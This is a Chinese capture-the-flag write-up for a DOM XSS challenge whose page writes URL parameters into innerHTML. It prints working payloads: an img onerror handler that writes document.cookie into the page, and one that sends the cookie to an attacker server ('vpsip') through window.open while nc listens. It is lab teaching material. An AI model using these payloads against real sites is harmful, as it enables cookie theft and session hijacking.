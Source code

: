 ## [Week2]XssTest

- hint1：DOM XSS, GET FLAG FROM COOKIE

- hint2：结合所学JavaScript知识，如果你能执行任意JavaScript代码便可以操控浏览器做一些事情，如果你有服务器(vps)的话可以选择外带cookie，如果没有的话这里提供了截图功能，想办法把cookie输出到页面然后让bot去截图返回~~~
  alert()会导致页面一直加载bot截图不了，请尝试其他函数，eg：document.write()
  ps：多思考，多尝试

访问：http://题目地址:28081/?subject=1&event=1&event2=1

返回内容：

![image-20230124010110442](./image-20230124010110442.png)

题目给出源码，查看逻辑

```javascript
function generate() {
    const currentURL = new URL(window.location.href);
    subject = currentURL.searchParams.get("subject");
    event = currentURL.searchParams.get("event");
    event2 = currentURL.searchParams.get("event2");
    document.getElementById("reportform").value = "http://localhost:3000/?subject=" + subject + "&event=" + event + "&event2=" + event2;
    if (subject.length == 0 || event.length == 0 || event2.length == 0)
        return;
    result = `　　${subject}${event}是怎么回事呢？${subject}相信大家都很熟悉，但是${subject}${event}是怎么回事呢，下面就让小编带大家一起了解吧。<br>　　${subject}${event}，其实就是${event2}，大家可能会很惊讶${subject}怎么会${event}呢？但事实就是这样，小编也感到非常惊讶。<br>　　这就是关于${subject}${event}的事情了，大家有什么想法呢，欢迎在评论区告诉小编一起讨论哦！`;
    document.getElementById("result").innerHTML = result;
    auto_grow(document.getElementById("result"));
}
```

前端处理url参数来生成页面内容，按xss分类为domxss

在domxss中如果使用script标签js不会被执行，因为后面加的js不会被浏览器加载

通过学习html，xss等内容。往html中插入图片，图片加载失败触发js执行可以来dom xss（还有其他方式不一一列举）

https://websec.readthedocs.io/zh/latest/vuln/xss/payload.html

尝试里面的payload，我用的是：`<img src=1 onerror=alert(1)>`

![image-20230124010136771](./image-20230124010136771.png)

这里来测试你的payload

![image-20230124010207592](./image-20230124010207592.png)

这里alert会使得浏览器没有加载完，截图会超时

### 两种解决方法

- 1（没有服务器来外带cookie情况下）通过往页面写入cookie（flag在cookie中）然后bot截图返回，已知`<img src=1 onerror=js代码>`中js代码为我们可以插入执行js的地方，现在我们只需要找个js函数，把cookie写入页面即可，通过翻文档/百度，找到`document.write()`函数，当然其他能够进行页面操作的都可以，控制台尝试![image-20230124010311026](./image-20230124010311026.png)可以往页面写入东西了，payload: `<img src=1 onerror=document.write(1)>`提交报告：`http://localhost:3000/?subject=<img src=1 onerror=document.write(1)>&event=null&event2=null`返回![image-20230124010345020](./image-20230124010345020.png)往页面写入cookie，payload: `<img src=1 onerror=document.write(document.cookie)>`提交报告：`http://localhost:3000/?subject=<img src=1 onerror=document.write(document.cookie)>&event=null&event2=null`返回![image-20230124010417040](./image-20230124010417040.png)
- 2 (有服务器来外带cookie情况下) 服务端nc监听端口![image-20230124010029369](./image-20230124010029369.png)，然后利用js来发送网络请求，payload: `<img src=1 onerror=window.open("http://vpsip:11012/?"+document.cookie)>`提交报告：http://localhost:3000/?subject=<img src=1 onerror=window.open(`http://vpsip:11012/?${document.cookie}`)>&event=1&event2=1返回![image-20230124014249794](./image-20230124014249794.png)
